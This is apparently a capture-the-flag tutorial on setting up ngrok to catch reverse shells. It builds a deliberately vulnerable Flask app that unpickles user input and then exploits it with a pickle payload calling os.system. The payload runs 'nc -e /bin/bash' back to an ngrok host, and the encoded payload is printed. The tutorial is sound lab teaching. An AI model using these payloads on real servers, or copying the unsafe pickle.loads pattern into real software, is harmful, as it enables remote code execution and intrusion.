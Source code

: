 # Getting started with ngrok

**What is ngrok? What could I ever use it for in a CTF?**

`ngrok` is a tool that lets you securely connect your localhost server or create a TCP tunnel instantly. This is very useful if you're trying to spawn a reverse shell and don't want to go through the hassle of setting up your own server on the Cloud or elsewhere. It can be used to do some other stuff too but these are the main use cases from a CTF perspective. You can find ngrok [here](https://ngrok.com/).



**Setup**

- Download the latest ngrok version for your operating system from [here](https://ngrok.com/download). For the purpose of this tutorial, I will be using Kali Linux as my operating system.

- Once downloaded, extract the contents of the file. Just make sure to follow the instructions on the download page of ngrok.

```
sudo tar xvzf ~/Downloads/ngrok-v3-stable-linux-amd64.tgz -C /usr/local/bin

# alternatively, you can install ngrok using apt-get/apt
curl -s https://ngrok-agent.s3.amazonaws.com/ngrok.asc | sudo tee /etc/apt/trusted.gpg.d/ngrok.asc >/dev/null && echo "deb https://ngrok-agent.s3.amazonaws.com buster main" | sudo tee /etc/apt/sources.list.d/ngrok.list && sudo apt update && sudo apt install ngrok

# or snap
sudo snap install ngrok
```

- Now, you need to add an authentication token to be able to use ngrok. You can find your authentication token by signing up on the ngrok website and copying it from your dashboard.

```
ngrok config add-authtoken <YOUR_TOKEN_GOES_HERE>
```

- You're all setup to use ngrok now!

```bash
┌──(arrow) 💀 [~/…/github/capture-the-flag/guide/getting-started-with-ngrok] <master>
└─$ ngrok --help    
NAME:
   ngrok - tunnel local ports to public URLs and inspect traffic

DESCRIPTION:
    ngrok exposes local networked services behinds NATs and firewalls to the
    public internet over a secure tunnel. Share local websites, build/test
    webhook consumers and self-host personal services.
    Detailed help for each command is available with 'ngrok help <command>'.
    Open http://localhost:4040 for ngrok's web interface to inspect traffic.

EXAMPLES:
    ngrok http 80                    # secure public URL for port 80 web server
    ngrok http -subdomain=baz 8080   # port 8080 available at baz.ngrok.io
    ngrok http foo.dev:80            # tunnel to host:port instead of localhost
    ngrok http https://localhost     # expose a local https server
    ngrok tcp 22                     # tunnel arbitrary TCP traffic to port 22
    ngrok tls -hostname=foo.com 443  # TLS traffic for foo.com to port 443
    ngrok start foo bar baz          # start tunnels from the configuration file

VERSION:
   2.3.40

AUTHOR:
  inconshreveable - <alan@ngrok.com>

COMMANDS:
   authtoken	save authtoken to configuration file
   credits	prints author and licensing information
   http		start an HTTP tunnel
   start	start tunnels by name from the configuration file
   tcp		start a TCP tunnel
   tls		start a TLS tunnel
   update	update ngrok to the latest version
   version	print the version string
   help		Shows a list of commands or help for one command
```

As can be seen, you can start secure HTTP, TCP and TLS tunnels - all in the blink of an eye without going through the process of setting up any private servers! That's all it takes to connect your local machine to the internet for doing something fast such as running a reverse shell exploit or redirecting traffic to your malicious payload local server through Cross Site Scripting, etc - which is what many CTF challenges are about! However, note that ngrok tunnels last only for as long as 2 hours, after which you will have to restart them.



**Demonstration**

As a brilliant node-js/python-flask/[INSERT-COOL-WEB-APPLICATION-FRAMEWORK-HERE] web application developer, you decided to take up yet another project (for the sake of this example, let's stick to a Python Flask web application that uses Pickle). You start to do some basic setup.

- Creating a virtual environment (read more [here](https://docs.python.org/3/library/venv.html)). As the very first step, you need to make sure to always work within virtual environments in python because installing certain packages and libraries might cause dependency issues if done globally.

```
# installing python3 and other required stuff
sudo apt-get install python3 python3-pip python3-venv -y

# creating project directory and virtual environment
mkdir sample-python-flask-pickle-app
cd sample-python-flask-pickle-app
python3 -m venv .sample-python-flask-pickle-app-venv
source .sample-python-flask-pickle-app-venv/bin/activate

# installing necessary libraries/modules
pip3 install flask pickle-mixin

# creating your source files directory
mkdir src
cd src
```

- Creating a simple flask application. In your `src/` directory, create a file called `app.py` (the name doesn't really matter) with the following contents:

```python
import pickle
import base64
import flask

app = flask.Flask(__name__)

@app.route("/", methods = ["GET"])
def home ():
  template = '''\
<html>
  <head><title>ngrok tutorial</title></head>
  
  <body>
    Can you get a reverse shell? Enter serialized Python Pickle data in base64 encoded form below. <br /><br />
    <form action="/ngrokme" method="post">
      <label for="payload">Enter base64 data:</label>
      <input type="text" name="payload" placeholder="base64-data" />
      <input type="submit" value="Submit" />
    </form>
  </body>
</html>
'''
  return flask.render_template_string(template), 200

@app.route("/ngrokme", methods = ["POST"])
def ngrokme ():
  try:
    payload = base64.urlsafe_b64decode(flask.request.form.get('payload').encode())
    pickle.loads(payload)
  except:
    return 'error unpickling your payload', 200
  return 'hmm, did your reverse shell payload work?', 200

app.run(host = '0.0.0.0', port = 31337, debug = True)
```

This is a very simple flask application that blindly unserializes pickled data. You need to submit base64 encoded data and the application will try to unpickle the data. This is a very serious problem in real world applications because it could lead to Remote Code Execution on servers. I will not go into the details of explaining how Pickle works and how this could be exploited as we're trying to focus on ngrok. You can read more about pickle exploitation [here](https://davidhamann.de/2020/04/05/exploiting-python-pickle/).

- Read through the article linked above to understand about pickle exploitation in detail. To get RCE, we can just copy the code from the article.

```python
import pickle
import base64
import os

class RCE:
  def __reduce__(self):
    cmd = ('whoami')
    return os.system, (cmd,)

if __name__ == '__main__':
  pickled = pickle.dumps(RCE())
  print(base64.urlsafe_b64encode(pickled).decode())
```

This simple exploit runs the `whoami` command on a shell/terminal in the server that trusts the serialized pickle data blindly and unserializes it. However, the problem here is that we cannot see the output of that command because even though we can remotely execute code, we have no way of reading the output directly (or atleast I don't know of an easier way to do it than getting a reverse shell).

- Getting a reverse shell. This part requires some blind guessing as we cannot see the output of our commands in an easy way. We must try and assume that the server has certain binaries that allow you to make remote TCP connections. Some examples of such binaries are `netcat/nc`, `python`, `bash`, etc. For the purpose of this example, I have `netcat` installed on my local machine. As an attacker, you must try different things out to detect what binaries are present on the server and if they can be abused to return a reverse TCP connection. You can find simple payloads for different applications [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md). Note that some may work, some may not. You need to be able to understand what happens under the hood and diagnose problems that you come across. Sometimes, you will have to bypass filtered characters and might have to get a bit crafty. But, that's what hacking is about!
  - Start running the application on local server by running `python3 app.py`

  ![1.png](./images/1.png)

  - Start a netcat listener on attacker shell by running `nc -nlvp 8888`. This command creates a netcat listener that waits for inbound connections to port 8888.

  ![2.png](./images/2.png)

  - Create a TCP tunnel to your local netcat listener using ngrok by running `ngrok tcp 8888`. Now, your local listener is connected to the internet and listens for inbound TCP connections.

  ![3.png](./images/3.png)

  - Craft a reverse shell payload. In the pickle exploit above, change cmd to the one below and run the program.

  ```
  cmd = ('nc -e /bin/bash 2.tcp.ngrok.io 13168')
  # Note that you need to put in your forwarding interface as shown by ngrok
  ```

  The resulting output looks something like this for me: `gASVPwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCRuYyAtZSAvYmluL2Jhc2ggMi50Y3Aubmdyb2suaW8gMTMxNjiUhZRSlC4=`

  ![4.png](./images/4.png)

  - Enter the payload on web interface in the form input element. The browser just continues to show that it is in loading state. In reality, the reverse shell payload has executed on the server and we've received an inbound TCP connection with a reverse shell!

  ![5.png](./images/5.png)

  ![6.png](./images/6.png)

And that's it! We're able to execute commands remotely on a server right from our own machine. The implications of this are serious... as we can run whatever we want on the server. Usually that's untrue because applications run as a low-privileged user and you're required to further exploit and try privilege escalation to root.
